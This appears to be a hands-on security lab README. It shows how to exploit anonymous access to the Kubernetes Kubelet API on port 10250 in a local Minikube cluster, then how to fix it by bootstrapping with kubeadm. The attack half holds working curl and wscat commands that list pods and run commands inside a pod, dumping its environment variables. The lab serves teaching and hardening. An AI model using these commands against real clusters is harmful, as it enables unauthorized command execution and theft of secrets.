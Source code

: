 ### Attack the Kubelet API
The Kubelet API is responsible for the master to node communication within a Kubernetes cluster. If you expose your nodes to the internet without some important configurations in place you are going to have a bad time. From the official Kubernetes docs:
"By default, requests to the Kubelet’s HTTPS endpoint that are not rejected by other configured authentication methods are treated as anonymous requests, and given a username of system:anonymous and a group of system:unauthenticated."

So let's exploit this "misconfiguration" within Minikube.

## Task 1: Spin up a default Kubernetes cluster

1. Start Minikube using the default LocalKube bootstrapper:
```
minikube delete
minikube start
```

2. Exec into the Kubernetes master and take a look at the kubelet configs:

```
minikube ssh
# grab your minikube IP address
minikube ip
```

3. The Kubelet API runs on every node. If an individual as network access to a node in the kubernetes cluster, they are able to do some interesting things by default, including "exec-ing" into running pods!

```
# port 10250 is the read/write port that the Kubelet API uses for communication to the master node

curl --insecure https://<minikubeIP>:10250/pods | jq

# jq is a tool to prettify JSON output - it is optional here but very useful
```
4. As you can see, using a default implementation of Minikube (any many other kubernetes production boots trappers) we are able to list all of the pods running on a given node. This seems bad. Let's try to Exec and do some damage. First, we launch some pods to take over. In the `manifests` directory, run the following command:
```
Kubectl create -f .
Kubectl get pods
```

5. Now we have our unshorten-api Deployment and Service up and running we can extract details from them using the same `curl` command we used before:
```
curl --insecure https://<minikubeIP>:10250/pods | jq
```

6. In the `metadata` field of the JSON output for our Pod you will find the pod name (remember, this curl command is NOT authenticated. An attacker can see this info without the proper settings in place!). The value will look something like `"name": "link-unshorten-8746d649b-7k8w2",`

7. Now, we take that Pod name and run another curl command. Reading Pod data is interesting but we want to do some damage:

```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.99.100:10250/exec/default/link-unshorten-8746d649b-7k8w2/unshorten-api-container?command=env | grep&input=1&output=1&tty=1"
```
8. This opens a stream which we can access using [wscat](https://www.npmjs.com/package/wscat). Take note of the `location:` header as we will be using that value to read from the stream. You can install `wscat` using the link above. Once `wscat` is installed, run the following command:
```
wscat -c "https://<minikubeIP>:10250/cri/exec/<valueFrom302>" --no-check
```

9. These are *all of the environment variables* for our unshorten-api pod, printed to the scree, unauthenticated. 

See any issues here?

## Task 2: Fix the Issue
There are a number of way to address the kubelet-api "misconfiguration" issue. To do this locally, our most simple solution is to bootstrap our cluster using the `kubeadm` bootstrapper. Out of the box, Minikube still uses `localkube` to build clusters. `localkube` runs every cluster component as a single binary in the Kubernetes environment. This project is in the process of being deprecated in favor of `kubeadm` which offers us a much more robust solution that matches production clusters more closely.
```
minikube start --bootstrapper kubeadm
```
1. Run our `curl` command from before:
```
curl --insecure https://192.168.99.100:10250/pods
```
We see that the response is `Forbidden` which is due to how `kubeadm` bootstraps clusters. `kubeadm` implements authorization of the kubelet by default. Let's take a look at this setting under the hood:

2. SSH into our Minikube node and take a look at our kubelet config:
```
minikube ssh
sudo cat /etc/kubernetes/kubelet.conf
```

3. You will see that our config defines a set of certificates which successfully enables authentication between the Master and Nodes. 

### Note: `kubeadm` does this by default but this is not always the case for other bootstrap mechanisms or scratch-built clusters! Always manually check that this configuration is enforced!

### Discussion Question: Is your kubelet api configured to block these attacks?
